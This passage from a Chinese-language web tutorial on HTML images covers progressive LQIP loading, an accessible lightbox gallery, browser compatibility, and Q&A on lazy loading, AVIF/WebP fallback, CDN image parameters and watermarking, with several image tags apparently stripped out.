          container.classList.add('loading')

          // 如果图片已被浏览器缓存（complete），立即切换
          if (targetImg.complete && targetImg.naturalWidth > 0) {
            this.reveal(container)
            return
          }

          // 监听高清图加载完成事件
          targetImg.addEventListener('load', () => this.reveal(container))
          targetImg.addEventListener('error', () => {
            // 高清图加载失败时保留 LQIP 显示
            container.classList.remove('loading')
            console.warn('高清图加载失败:', targetImg.src)
          })
        }

        reveal(container) {
          container.classList.remove('loading')
          // 使用 requestAnimationFrame 确保 CSS 过渡生效
          requestAnimationFrame(() => {
            requestAnimationFrame(() => {
              container.classList.add('loaded')
            })
          })
        }
      }

      // 页面加载完成后初始化
      document.addEventListener('DOMContentLoaded', () => {
        new ProgressiveImageLoader()
      })
    </script>
  </body>
</html>
```

**LQIP 生成方式：**

| 方案 | 大小 | 质量 | 适用场景 | 生成工具 |
|------|------|------|----------|----------|
| **Base64 内联** | 500B-2KB | 低 | 首屏关键图 | sharp/blurhash |
| **极小 WebP 外链** | 1-3KB | 中 | 内容图 | cwebp + resize |
| **BlurHash 字符串** | 20-50 bytes | 编码 | 数据驱动 | blurhash 库 |
| **CSS 渐变色** | ~100 bytes | 近似 | 简单背景 | 主色提取 |

```bash
# 使用 sharp 生成 LQIP（Node.js / CLI）
npx sharp-cli -i photo.jpg -o lqip.webp \
  --resize 32 --webp-quality 30 --blur 3

# 或使用 Node.js API
const sharp = require('sharp')
const fs = require('fs')

async function generateLQIP(inputPath) {
  const buffer = await sharp(inputPath)
    .resize(32, null, { withoutEnlargement: true }) // 缩放到宽 32px
    .webp({ quality: 30 })                          // 极低质量
    .toBuffer()
  return `data:image/webp;base64,${buffer.toString('base64')}`
}
```

### 案例 7：图像灯箱 / 画廊组件（Lightbox Gallery）

一个功能完整的灯箱组件需要支持键盘导航、触摸手势、无障碍访问、预加载等特性：

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>图像灯箱画廊</title>
    <style>
      /* ===== 缩略图画廊网格 ===== */
      .gallery-grid {
        display: grid;
        grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
        gap: 16px;
        max-width: 1200px;
        margin: 0 auto;
        padding: 20px;
      }

      .gallery-thumb {
        aspect-ratio: 1;
        overflow: hidden;
        border-radius: 8px;
        cursor: pointer;
        background-color: #f0f0f0;
        position: relative;
      }

      .gallery-thumb img {
        width: 100%;
        height: 100%;
        object-fit: cover;
        transition: transform 0.3s ease;
      }

      .gallery-thumb:hover img {
        transform: scale(1.06);
      }

      .gallery-thumb:focus-visible {
        outline: 3px solid #1890ff;
        outline-offset: 2px;
      }

      /* ===== 灯箱遮罩层 ===== */
      .lightbox-overlay {
        position: fixed;
        inset: 0;
        z-index: 9999;
        background: rgba(0, 0, 0, 0.92);
        display: none; /* 默认隐藏 */
        align-items: center;
        justify-content: center;
        flex-direction: column;
        opacity: 0;
        transition: opacity 0.25s ease;
      }

      .lightbox-overlay.active {
        display: flex;
        /* opacity 过渡需配合 JS 在下一帧设置，或改用 @starting-style */
        opacity: 1;
      }

      /* ===== 灯箱主图区域 ===== */
      .lightbox-container {
        position: relative;
        max-width: 90vw;
        max-height: 85vh;
        display: flex;
        align-items: center;
        justify-content: center;
      }

      .lightbox-image {
        max-width: 90vw;
        max-height: 85vh;
        object-fit: contain;
        border-radius: 4px;
        user-select: none;
        -webkit-user-drag: none;
        transition: opacity 0.3s ease;
      }

      .lightbox-image.loading {
        opacity: 0.5;
      }

      /* ===== 导航按钮 ===== */
      .lightbox-nav {
        position: absolute;
        top: 50%;
        transform: translateY(-50%);
        width: 48px;
        height: 48px;
        border: none;
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.15);
        color: white;
        font-size: 24px;
        cursor: pointer;
        display: flex;
        align-items: center;
        justify-content: center;
        transition: background 0.2s;
        z-index: 10;
      }

      .lightbox-nav:hover,
      .lightbox-nav:focus-visible {
        background: rgba(255, 255, 255, 0.3);
        outline: none;
      }

      .lightbox-prev { left: -24px; }
      .lightbox-next { right: -24px; }

      @media (max-width: 768px) {
        .lightbox-prev { left: 8px; }
        .lightbox-next { right: 8px; }
      }

      /* ===== 关闭按钮 ===== */
      .lightbox-close {
        position: absolute;
        top: 16px;
        right: 16px;
        width: 44px;
        height: 44px;
        border: none;
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.15);
        color: white;
        font-size: 28px;
        cursor: pointer;
        display: flex;
        align-items: center;
        justify-content: center;
        transition: background 0.2s;
        z-index: 10;
      }

      .lightbox-close:hover,
      .lightbox-close:focus-visible {
        background: rgba(255, 255, 255, 0.3);
        outline: none;
      }

      /* ===== 底部信息栏 ===== */
      .lightbox-footer {
        position: absolute;
        bottom: 0;
        left: 0;
        right: 0;
        padding: 16px 24px;
        display: flex;
        align-items: center;
        justify-content: space-between;
        color: rgba(255, 255, 255, 0.85);
        font-size: 14px;
        pointer-events: none;
      }

      .lightbox-counter {
        background: rgba(0, 0, 0, 0.5);
        padding: 4px 12px;
        border-radius: 12px;
      }

      /* ===== 缩略图导航条 ===== */
      .lightbox-thumbs {
        display: flex;
        gap: 8px;
        padding: 12px;
        justify-content: center;
        max-width: 90vw;
        overflow-x: auto;
      }

      .lightbox-thumb {
        width: 48px;
        height: 48px;
        border-radius: 4px;
        object-fit: cover;
        cursor: pointer;
        opacity: 0.5;
        border: 2px solid transparent;
        transition: all 0.2s;
        flex-shrink: 0;
      }

      .lightbox-thumb:hover {
        opacity: 0.8;
      }

      .lightbox-thumb.active {
        opacity: 1;
        border-color: #1890ff;
      }

      /* ===== 全屏按钮 ===== */
      .lightbox-fullscreen {
        position: absolute;
        top: 16px;
        right: 70px;
        width: 40px;
        height: 40px;
        border: none;
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.15);
        color: white;
        font-size: 18px;
        cursor: pointer;
        display: flex;
        align-items: center;
        justify-content: center;
        transition: background 0.2s;
      }

      .lightbox-fullscreen:hover {
        background: rgba(255, 255, 255, 0.3);
      }

      /* ===== 加载动画 ===== */
      .lightbox-spinner {
        position: absolute;
        width: 40px;
        height: 40px;
        border: 3px solid rgba(255, 255, 255, 0.2);
        border-top-color: white;
        border-radius: 50%;
        animation: spin 0.8s linear infinite;
        display: none;
      }

      .lightbox-spinner.visible {
        display: block;
      }

      @keyframes spin {
        to { transform: rotate(360deg); }
      }

      /* 无障碍：隐藏但可聚焦的跳转链接 */
      .sr-only {
        position: absolute;
        width: 1px;
        height: 1px;
        padding: 0;
        margin: -1px;
        overflow: hidden;
        clip: rect(0, 0, 0, 0);
        white-space: nowrap;
        border: 0;
      }
    </style>
  </head>
  <body>
    <h2 style="text-align: center; padding: 20px;">🖼️ 图像画廊</h2>

    <!-- 缩略图画廊 -->
    <div class="gallery-grid" role="list" aria-label="图像画廊">
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
    </div>

    <!-- ===== 灯箱组件 ===== -->
    <div
      class="lightbox-overlay"
      id="lightbox"
      role="dialog"
      aria-modal="true"
      aria-label="图像灯箱查看器"
      aria-hidden="true">

      <!-- 关闭按钮 -->
      <button
        class="lightbox-close"
        id="lb-close"
        aria-label="关闭灯箱（Esc）">&times;</button>

      <!-- 全屏按钮 -->
      <button
        class="lightbox-fullscreen"
        id="lb-fs"
        aria-label="切换全屏">⛶</button>

      <!-- 主图容器 -->
      <div class="lightbox-container">
        <!-- 上一张 -->
        <button class="lightbox-nav lightbox-prev" id="lb-prev" aria-label="上一张图片（←）">‹</button>

        <!-- 图片 -->
        

        <!-- 加载指示器 -->
        <div class="lightbox-spinner" id="lb-spinner"></div>

        <!-- 下一张 -->
        <button class="lightbox-nav lightbox-next" id="lb-next" aria-label="下一张图片（→）">›</button>
      </div>

      <!-- 底部信息栏 -->
      <div class="lightbox-footer">
        <span class="lightbox-counter" id="lb-counter">1 / 6</span>
        <span id="lb-caption"></span>
      </div>

      <!-- 缩略图导航条 -->
      <div class="lightbox-thumbs" id="lb-thumbs" role="tablist" aria-label="缩略图导航"></div>
    </div>

    <script>
      /**
       * LightboxGallery — 图像灯箱画廊组件
       *
       * 功能：
       * - 键盘导航（← → Esc Enter）
       * - 触摸手势滑动（移动端）
       * - ARIA 无障碍完整支持
       * - 缩略图导航条
       * - 全屏模式
       * - 相邻图片预加载
       * - 平滑过渡动画
       */
      class LightboxGallery {
        constructor(options = {}) {
          // 配置项
          this.thumbSelector = options.thumbSelector || '.gallery-thumb img'
          this.overlaySelector = options.overlaySelector || '#lightbox'

          // 状态
          this.images = []         // 所有图片数据
          this.currentIndex = 0     // 当前索引
          this.isOpen = false       // 是否打开
          this.touchStartX = 0      // 触摸起始 X
          this.touchEndX = 0        // 触摸结束 X
          this.preloadDistance = 1  // 预加载范围

          // DOM 引用
          this.overlay = null
          this.imageEl = null
          this.counterEl = null
          this.captionEl = null
          this.thumbsContainer = null
          this.spinnerEl = null

          this.init()
        }

        init() {
          // 获取 DOM 元素
          this.overlay = document.querySelector(this.overlaySelector)
          this.imageEl = document.getElementById('lb-img')
          this.counterEl = document.getElementById('lb-counter')
          this.captionEl = document.getElementById('lb-caption')
          this.thumbsContainer = document.getElementById('lb-thumbs')
          this.spinnerEl = document.getElementById('lb-spinner')

          // 收集图片数据
          this.collectImages()

          // 绑定事件
          this.bindEvents()
        }

        /** 收集缩略图数据 */
        collectImages() {
          const thumbs = document.querySelectorAll(this.thumbSelector)
          thumbs.forEach((thumb, index) => {
            this.images.push({
              thumb: thumb.src,
              full: thumb.dataset.full || thumb.src.replace('thumb-', 'full-'),
              alt: thumb.alt || `图片 ${index + 1}`,
              element: thumb
            })
          })

          // 生成底部缩略图导航
          this.renderThumbNav()
        }

        /** 渲染底部缩略图导航条 */
        renderThumbNav() {
          this.thumbsContainer.innerHTML = this.images.map((img, i) =>
            ``
          ).join('')
        }

        /** 绑定所有交互事件 */
        bindEvents() {
          // 缩略图点击打开灯箱
          document.querySelectorAll(this.thumbSelector).forEach((thumb, index) => {
            thumb.addEventListener('click', () => this.open(index))
            thumb.addEventListener('keydown', (e) => {
              if (e.key === 'Enter' || e.key === ' ') {
                e.preventDefault()
                this.open(index)
              }
            })
          })

          // 关闭按钮
          document.getElementById('lb-close').addEventListener('click', () => this.close())

          // 导航按钮
          document.getElementById('lb-prev').addEventListener('click', () => this.prev())
          document.getElementById('lb-next').addEventListener('click', () => this.next())

          // 全屏按钮
          document.getElementById('lb-fs').addEventListener('click', () => this.toggleFullscreen())

          // 点击遮罩关闭
          this.overlay.addEventListener('click', (e) => {
            if (e.target === this.overlay) this.close()
          })

          // 底部缩略图点击
          this.thumbsContainer.addEventListener('click', (e) => {
            if (e.target.classList.contains('lightbox-thumb')) {
              this.goTo(parseInt(e.target.dataset.index))
            }
          })

          // 键盘导航
          document.addEventListener('keydown', (e) => {
            if (!this.isOpen) return
            switch (e.key) {
              case 'ArrowLeft':  this.prev(); break
              case 'ArrowRight': this.next(); break
              case 'Escape':     this.close(); break
            }
          })

          // 触摸手势支持
          this.overlay.addEventListener('touchstart', (e) => {
            this.touchStartX = e.changedTouches[0].screenX
          }, { passive: true })

          this.overlay.addEventListener('touchend', (e) => {
            this.touchEndX = e.changedTouches[0].screenX
            this.handleSwipe()
          }, { passive: true })
        }

        /** 处理触摸滑动 */
        handleSwipe() {
          const threshold = 50 // 最小滑动距离
          const diff = this.touchStartX - this.touchEndX
          if (Math.abs(diff) > threshold) {
            if (diff > 0) this.next()   // 向左滑 → 下一张
            else        this.prev()     // 向右滑 → 上一张
          }
        }

        /** 打开灯箱 */
        open(index) {
          this.currentIndex = index
          this.isOpen = true
          this.overlay.classList.add('active')
          this.overlay.setAttribute('aria-hidden', 'false')
          document.body.style.overflow = 'hidden' // 防止背景滚动

          this.showImage(index)
          this.preloadAdjacent()

          // 聚焦到关闭按钮，确保键盘用户可以操作
          document.getElementById('lb-close').focus()
        }

        /** 关闭灯箱 */
        close() {
          this.isOpen = false
          this.overlay.classList.remove('active')
          this.overlay.setAttribute('aria-hidden', 'true')
          document.body.style.overflow = ''

          // 返回焦点到触发的缩略图
          const triggerThumb = this.images[this.currentIndex]?.element
          if (triggerThumb) triggerThumb.focus()
        }

        /** 显示指定索引的图片 */
        showImage(index) {
          const img = this.images[index]
          if (!img) return

          this.currentIndex = index

          // 显示加载状态
          this.imageEl.classList.add('loading')
          this.spinnerEl.classList.add('visible')

          // 更新图片源
          this.imageEl.src = img.full
          this.imageEl.alt = img.alt

          // 更新计数器和说明文字
          this.counterEl.textContent = `${index + 1} / ${this.images.length}`
          this.captionEl.textContent = img.alt

          // 更新缩略图激活状态
          this.thumbsContainer.querySelectorAll('.lightbox-thumb').forEach((t, i) => {
            t.classList.toggle('active', i === index)
            t.setAttribute('aria-selected', i === index)
          })

          // 图片加载完成回调
          const onLoad = () => {
            this.imageEl.classList.remove('loading')
            this.spinnerEl.classList.remove('visible')
            this.imageEl.removeEventListener('load', onLoad)
            this.imageEl.removeEventListener('error', onError)
          }
          const onError = () => {
            this.imageEl.classList.remove('loading')
            this.spinnerEl.classList.remove('visible')
            this.imageEl.alt = '（图片加载失败）'
            this.imageEl.removeEventListener('load', onLoad)
            this.imageEl.removeEventListener('error', onError)
          }
          this.imageEl.addEventListener('load', onLoad)
          this.imageEl.addEventListener('error', onError)
        }

        /** 切换到上一张 */
        prev() {
          const newIndex = (this.currentIndex - 1 + this.images.length) % this.images.length
          this.showImage(newIndex)
          this.preloadAdjacent()
        }

        /** 切换到下一张 */
        next() {
          const newIndex = (this.currentIndex + 1) % this.images.length
          this.showImage(newIndex)
          this.preloadAdjacent()
        }

        /** 跳转到指定索引 */
        goTo(index) {
          if (index >= 0 && index < this.images.length) {
            this.showImage(index)
            this.preloadAdjacent()
          }
        }

        /** 预加载相邻图片 */
        preloadAdjacent() {
          const indices = [
            (this.currentIndex - 1 + this.images.length) % this.images.length,
            (this.currentIndex + 1) % this.images.length
          ]
          indices.forEach(i => {
            const link = document.createElement('link')
            link.rel = 'preload'
            link.as = 'image'
            link.href = this.images[i].full
            document.head.appendChild(link)
          })
        }

        /** 切换全屏模式 */
        toggleFullscreen() {
          if (!document.fullscreenElement) {
            this.overlay.requestFullscreen?.().catch(() => {})
          } else {
            document.exitFullscreen?.()
          }
        }
      }

      // 初始化灯箱
      document.addEventListener('DOMContentLoaded', () => {
        new LightboxGallery()
      })
    </script>
  </body>
</html>
```

**灯箱组件核心功能一览：**

| 功能 | 实现方式 | 说明 |
|------|----------|------|
| 键盘导航 | `keydown` 事件监听 ← → Esc | 符合 WCAG 2.1 键盘可操作性要求 |
| 触摸手势 | `touchstart`/`touchend` 计算位移差 | 移动端滑动切换，阈值 50px |
| ARIA 无障碍 | `role="dialog"` / `aria-modal` / `aria-label` | 屏幕阅读器友好 |
| 焦点管理 | 打开时聚焦关闭按钮，关闭时返回触发元素 | 防止焦点丢失（Focus Trap） |
| 图片预加载 | `<link rel="preload">` 动态插入相邻图片 | 切换时几乎无等待 |
| 全屏模式 | Fullscreen API (`requestFullscreen`) | 沉浸式浏览体验 |

## 浏览器兼容性

大多数基础图像特性在现代浏览器中都能很好地工作，但新特性和新格式需要考虑回退策略。

| 特性              | 支持情况概述                                      | 兼容性建议                            |
| ----------------- | ------------------------------------------------- | ------------------------------------- |
| 基本 `` 属性 | 所有主流浏览器，包括较旧版本                      | 可放心使用                            |
| `srcset`/`sizes`  | 现代浏览器普遍支持，老旧浏览器会退化为使用 `src`  | 总是提供合理的 `src` 作为回退         |
| `<picture>`       | 现代浏览器支持，IE 等旧浏览器忽略 `<source>` 元素 | 在 `<picture>` 中提供兼容的 ``   |
| `loading`         | 现代 Chromium 浏览器和新版本 Firefox/Safari 支持  | 旧浏览器会忽略该属性，行为等同未设置  |
| `decoding`        | 现代浏览器广泛支持                                | 不支持的浏览器会忽略该属性            |
| `fetchpriority`   | 目前主要由 Chromium 内核实现                      | 按渐进增强使用，避免依赖其行为        |
| WebP/AVIF 格式    | 新版浏览器支持良好，旧版浏览器可能不支持          | 通过 `<picture>` 提供 JPEG 等回退格式 |

实践中可以遵循以下原则：

- 优先保证在所有浏览器中都能看到内容，再利用新特性渐进增强
- 对关键页面在真实设备和多种浏览器上进行验证，尤其是移动端
- 通过统计工具观察图片加载错误率，及时发现兼容性问题

## 常见问题解答（Q&A）

### 问题 1：图像不显示

**可能原因：**

1. 路径错误
2. 图像文件不存在
3. 文件权限问题
4. CORS 跨域问题

**解决方案：**

```html
<!-- 检查路径 -->

<!-- 或 -->


<!-- 检查控制台错误信息 -->
<!-- 使用开发者工具 Network 标签检查请求状态 -->
```

### 问题 2：图像变形

**原因：** 只设置了宽度或高度，没有保持宽高比

**解决方案：**

```html
<!-- ✅ 正确：使用 CSS 保持宽高比 -->


<!-- ✅ 或设置宽高属性 -->

```

### 问题 3：响应式图像不工作

**检查清单：**

1. 确认 `srcset` 格式正确
2. 确认 `sizes` 属性设置正确
3. 检查浏览器是否支持
4. 验证图像文件是否存在

```html
<!-- ✅ 正确的格式 -->

```

### 问题 4：懒加载不工作

**可能原因：**

1. 浏览器不支持（旧浏览器）
2. 图像在视口内（会立即加载）
3. 使用了 `loading="eager"`

**解决方案：**

```html
<!-- 确保图像在视口外 -->


<!-- 添加 polyfill（如果需要支持旧浏览器） -->
<script src="https://cdn.jsdelivr.net/npm/loading-attribute-polyfill@2.0.1/dist/loading-attribute-polyfill.min.js"></script>
```

### 问题 5：图像加载慢

**优化方案：**

1. 使用懒加载
2. 优化图像格式（WebP、AVIF）
3. 压缩图像文件
4. 使用 CDN
5. 设置合适的缓存策略

```html
<!-- 使用现代格式 -->
<picture>
  <source type="image/avif" srcset="image.avif" />
  <source type="image/webp" srcset="image.webp" />
  
</picture>
```

### 问题 6：图像热区在移动端不工作

**原因：** 移动端触摸区域可能太小

**解决方案：**

1. 增大热区面积（至少 44x44px）
2. 提供备用链接
3. 考虑使用按钮替代

```html
<!-- 确保热区足够大 -->
<area shape="rect" coords="0,0,100,100" href="/link" alt="链接" />
```

### 问题 7：WebP / AVIF 兼容性回退方案？

**背景：** WebP 和 AVIF 在旧版浏览器中不支持，需要提供回退方案。

**方案 1：`<picture>` + `<source>` 类型检测（推荐）**

```html
<!-- ✅ 推荐：浏览器自动选择支持的格式 -->
<picture>
  <source type="image/avif" srcset="photo.avif" />
  <source type="image/webp" srcset="photo.webp" />
  
</picture>
```

**方案 2：服务端内容协商（Accept 头检测）**

```11-Nginx基础概述
# Nginx 根据请求头 Accept 自动返回最佳格式
map $http_accept $image_ext {
    default                  jpg;
    "~*image/avif"          avif;
    "~*image/webp(?!,.*image/avif)" webp;
}

# 使用示例：请求 /images/photo 自动匹配 photo.avif / photo.webp / photo.jpg
location ~* ^/images/(.+)$ {
    add_header Vary Accept;
    try_files /images/$1.$image_ext =404;
}
```

**方案 3：JavaScript 特性检测**

```javascript
// 检测浏览器是否支持 AVIF（用极小的 AVIF 测试图尝试解码）
async function supportsAvif() {
  if (!createImageBitmap) return false

  // 1×1 像素的合法 AVIF 测试图（社区通用的特性检测数据）
  const avifData =
    'data:image/avif;base64,AAAAIGZ0eXBhdmlmAAAAAGF2aWZtaWYxbWlhZk1BMUIAAADybWV0YQAAAAAAAAAoaGRscgAAAAAAAAAAcGljdAAAAAAAAAAAAAAAAGxpYmF2aWYAAAAADnBpdG0AAAAAAAEAAAAeaWxvYwAAAABEAAABAAEAAAABAAABGgAAAB0AAAAoaWluZgAAAAAAAQAAABppbmZlAgAAAAABAABhdjAxQ29sb3IAAAAAamlwcnAAAABLaXBjbwAAABRpc3BlAAAAAAAAAAIAAAACAAAAEHBpeGkAAAAAAwgICAAAAAxhdjFDgQ0MAAAAABNjb2xybmNseAACAAIAAYAAAAAXaXBtYQAAAAAAAAABAAEEAQKDBAAAACVtZGF0EgAKCBgANogQEAwgMg8f8D///8WfhwB8+ErZ'

  const blob = await fetch(avifData).then(r => r.blob())
  return createImageBitmap(blob).then(() => true, () => false)
}

// 使用示例
const supportsAVIF = await supportsAvif()
const imageSrc = supportsAVIF ? 'photo.avif' : 'photo.webp'
```

::: tip 推荐策略
**优先使用 `<picture>` 方案**，零 JavaScript、零服务端配置、浏览器原生支持。
:::

### 问题 8：`srcset` vs `picture` 如何选择？

| 场景 | 推荐方案 | 原因 |
|------|---------|------|
| 同一图片不同分辨率（Retina 适配） | `srcset` + `sizes` | 代码简洁，浏览器自动选择 |
| 不同设备显示不同裁剪（艺术指导） | `<picture>` + `media` | 可按媒体查询切换不同图片 |
| 格式回退（AVIF → WebP → JPEG） | `<picture>` + `type` | 浏览器按 MIME 类型自动匹配 |
| 深色模式适配 | `<picture>` + `prefers-color-scheme` | 需要媒体查询条件 |
| 简单响应式缩放图 | `srcset` + `w` 描述符 | 最轻量的实现方式 |

```html
<!-- ✅ 场景 A：仅需要分辨率适配 → 用 srcset -->


<!-- ✅ 场景 B：需要格式回退 + 艺术指导 → 用 picture -->
<picture>
  <!-- 移动端竖屏裁剪 + AVIF -->
  <source media="(max-width: 600px)"
          type="image/avif"
          srcset="hero-mobile-crop.avif" />
  <!-- 移动端竖屏裁剪 + WebP 回退 -->
  <source media="(max-width: 600px)"
          type="image/webp"
          srcset="hero-mobile-crop.webp" />
  <!-- 桌面端 + AVIF -->
  <source type="image/avif" srcset="hero-desktop.avif" />
  <!-- 桌面端 + WebP 回退 -->
  <source type="image/webp" srcset="hero-desktop.webp" />
  <!-- 最终回退 JPEG -->
  
</picture>
```

### 问题 9：`loading="lazy"` 不生效怎么办？

**可能原因及排查步骤：**

```javascript
/**
 * LazyLoadDebugger — loading=lazy 不生效诊断工具
 */
function debugLazyLoading() {
  const lazyImages = document.querySelectorAll('img[loading="lazy"]')
  
  console.group('🔍 Lazy Loading Debug Report')
  console.log(`Found ${lazyImages.length} images with loading="lazy"`)

  lazyImages.forEach((img, i) => {
    const issues = []

    // 检查 1：图片是否已在视口内
    const rect = img.getBoundingClientRect()
    if (rect.top >= 0 && rect.bottom <= window.innerHeight) {
      issues.push('⚠️ 图像已在视口内，lazy 无效（会立即加载）')
    }

    // 检查 2：CSS display:none 的祖先元素
    let el = img.parentElement
    while (el && el !== document.body) {
      if (getComputedStyle(el).display === 'none') {
        issues.push('⚠️ 存在 display:none 的祖先元素')
        break
      }
      el = el.parentElement
    }

    // 检查 3：浏览器支持情况
    if (!('loading' in HTMLImageElement.prototype)) {
      issues.push('❌ 当前浏览器不支持 native lazy loading')
    }

    // 检查 4：图片尺寸为 0
    if (img.width === 0 || img.height === 0) {
      issues.push('⚠️ 图像 width 或 height 为 0')
    }

    // 输出诊断结果
    console.log(`[${i + 1}] ${img.src?.slice(-50)}${issues.length ? '' : ' ✅ 正常'}`)
    issues.forEach(issue => console.log(`   ${issue}`))
  })

  console.groupEnd()
}

// 运行诊断
debugLazyLoading()
```

**常见原因与解决方案：**

| 原因 | 现象 | 解决方案 |
|------|------|---------|
| **图片在首屏视口内** | 图片立即加载 | 首屏图像使用 `loading="eager"` |
| **CSS `display: none` 祖先** | 不触发加载 | 改用 IntersectionObserver |
| **浏览器版本过旧** | 属性被忽略 | 引入 polyfill 脚本 |
| **图片尺寸为 0** | 无法计算距离 | 设置 `width`/`height` 属性 |
| **嵌套在 `overflow: auto` 容器内** | 部分浏览器不触发 | 使用 IntersectionObserver 替代 |

**Polyfill 兜底方案：**

```html
<!-- 仅对不支持的浏览器加载 polyfill -->
<script>
  if (!('loading' in HTMLImageElement.prototype)) {
    const script = document.createElement('script')
    script.src = 'https://cdn.jsdelivr.net/npm/loading-attribute-polyfill@2.0.1/dist/loading-attribute-polyfill.min.js'
    document.head.appendChild(script)
  }
</script>
```

### 问题 10：CDN 图像处理如何选择参数？

现代 CDN（阿里云 OSS、Cloudinary、Imgix 等）支持 URL 参数实时处理图像。合理选择参数可以在**质量与体积间取得最优平衡**。

#### 常见 CDN 参数对照表

| 操作 | 阿里云 OSS | Cloudinary | Imgix | 效果 |
|------|-----------|------------|-------|------|
| **缩放宽度** | `/resize,w_400` | `w_400` | `w=400` | 缩放到 400px 宽 |
| **裁剪填充** | `/crop,w_400,h_300,g_center` | `c_fill,w_400,h_300` | `fit=crop&w=400&h=300` | 居中裁剪填满 |
| **质量** | `/quality,q_80` | `q_80` | `q=80` | 质量 80% |
| **格式转换** | `/format,webp` | `f_webp` | `fmt=webp` | 转 WebP |
| **自动格式** | — | `f_auto` | `auto=format` | 自动选最优格式 |
| **自动质量** | — | `q_auto` | `auto=compress` | 智能压缩 |
| **锐化** | `/sharpen,100` | `e_sharpen:100` | `sharp=10` | 锐化增强 |

#### 最佳实践 URL 构建器

```javascript
/**
 * CDNUriBuilder — 智能图像 URL 构建器
 *
 * 根据设备和网络状况自动生成最优 CDN 图像 URL
 */
class CDNUriBuilder {
  constructor(options = {}) {
    this.cdnBase = options.cdnBase || 'https://cdn.example.com'
    this.provider = options.provider || 'aliyun' // aliyun | cloudinary | imgix
    this.defaultQuality = options.quality || 75
  }

  /**
   * 构建响应式图像 URL
   * @param {string} imagePath - 相对于 CDN 根目录的路径
   * @param {object} params - 处理参数
   * @returns {string} 完整的 CDN URL
   */
  build(imagePath, params = {}) {
    const {
      width,
      height,
      quality = this.defaultQuality,
      format = null,           // null = auto
      crop = 'limit',          // limit | fill | pad
      dpr = window.devicePixelRatio || 1,
      enableWebP = true,
    } = params

    switch (this.provider) {
      case 'aliyun':
        return this._buildAliyun(imagePath, { width, height, quality, format, crop, dpr, enableWebP })
      
      case 'cloudinary':
        return this._buildCloudinary(imagePath, { width, height, quality, format, crop, dpr })
      
      case 'imgix':
        return this._buildImgix(imagePath, { width, height, quality, format, crop, dpr })
      
      default:
        return `${this.cdnBase}/${imagePath}`
    }
  }

  _buildAliyun(path, p) {
    const w = Math.round(p.width * p.dpr)
    const h = p.height ? Math.round(p.height * p.dpr) : undefined
    
    let process = []
    
    if (w) process.push(`resize,w_${w}${h ? `,h_${h}` : ''}`)
    
    // 自动 WebP（通过 Accept 头协商）
    if (p.enableWebP) process.push('format,webp')
    
    process.push(`quality,q_${p.quality}`)

    return `${this.cdnBase}/${path}?x-oss-process=${process.join('/')}`
  }

  _buildCloudinary(path, p) {
    const w = Math.round(p.width * p.dpr)
    const h = p.height ? Math.round(p.height * p.dpr) : undefined

    const transforms = [
      `c_${p.crop}`,
      w ? `w_${w}` : '',
      h ? `h_${h}` : '',
      `dpr_${p.dpr}`,
      p.format === null ? 'f_auto' : `f_${p.format}`,
      'q_auto:good',
    ].filter(Boolean)

    return `${this.cdnBase}/image/upload/${transforms.join(',')}/${path}`
  }
}

// ===== 使用示例 =====

const cdn = new CDNUriBuilder({
  cdnBase: 'https://your-bucket.oss-cn-beijing.aliyuncs.com',
  provider: 'aliyun',
})

// 商品列表缩略图（自动适配 DPR）
const thumbUrl = cdn.build('products/shoe-001.jpg', {
  width: 300,
  height: 300,
  crop: 'fill',       // 居中裁剪
})
// → https://.../shoe-001.jpg?x-oss-process=resize,w_600,h_600/format,webp/quality,q_75

// 文章配图（自适应宽度）
const articleUrl = cdn.build('blog/post-cover.jpg', {
  width: 800,
  crop: 'limit',      // 限制最大尺寸不拉伸
})
// → https://.../post-cover.jpg?x-oss-process=resize,w_800/format,webp/quality,q_75
```

### 问题 11：图片模糊 / 锐化问题怎么解决？

图像在不同尺寸下可能出现模糊或过度锐化的问题，通常由以下原因导致：

| 问题现象 | 原因 | 解决方案 |
|---------|------|---------|
| **整体模糊** | 显示尺寸远大于实际像素 | 提供 2x/3x 高清源图或增大原图尺寸 |
| **文字边缘锯齿** | 有损压缩导致高频信息丢失 | 使用 PNG/WebP 无损模式；提高 quality 值 |
| **缩略图发虚** | 缩小时未做锐化处理 | CDN 增加 sharpen 参数 |
| **放大后马赛克** | 矢量图转栅格时分辨率不足 | 使用 SVG 或提供足够大的源文件 |
| **颜色断层** | 色深不足或压缩过度 | 使用 PNG-24 或提高 JPEG quality 到 85+ |

**CDN 锐化参数调优：**

```html
<!-- 阿里云 OSS：调整锐化强度 -->


<!-- Cloudinary：智能增强 -->


<!-- 综合优化链路：缩放 → 锐化 → 增强 → 输出 -->

```

**前端 CSS 锐化补偿（应急方案）：**

```css
/* 对低分辨率图像进行轻微锐化补偿 */
.image-sharp {
  /* 微妙的对比度提升可改善感知清晰度 */
  filter: contrast(1.05);
  
  /* 抗锯齿：让边缘更平滑 */
  image-rendering: -webkit-optimize-contrast;
  image-rendering: crisp-edges;
}

/* ⚠️ 注意：这是权宜之计，根本解决方案是提供高分辨率源图 */
```

### 问题 12：如何实现图片水印？

水印是保护版权的常见需求，可分为**客户端水印**和**服务端水印**两种方案。

::: warning 安全提醒
**纯前端（Canvas）水印可以被轻易去除！** 对于真正的版权保护，必须使用服务端水印。
:::

#### 方案 1：服务端水印（推荐）

**阿里云 OSS 图片水印：**

```html
<!-- 文字水印：右下角半透明文字 -->


<!-- 图片水印：平铺 Logo -->


<!-- 组合：先处理图片再加水印 -->

```

**Node.js (sharp) 服务端水印：**

```javascript
const sharp = require('sharp')
const path = require('path')

async function addWatermark(inputPath, outputPath, options = {}) {
  const {
    text = '© Your Brand',     // 水印文字
    logoPath = null,            // Logo 图片路径
    position = 'southeast',     // northwest | northeast | southwest | southeast | center
    opacity = 0.15,             // 透明度 0-1
    fontSize = 48,
    color = '#FFFFFF',
  } = options

  let pipeline = sharp(inputPath)

  // 图片水印
  if (logoPath) {
    const watermark = await sharp(logoPath)
      .ensureAlpha()
      .modulate({ brightness: 1, saturation: 1.0 })
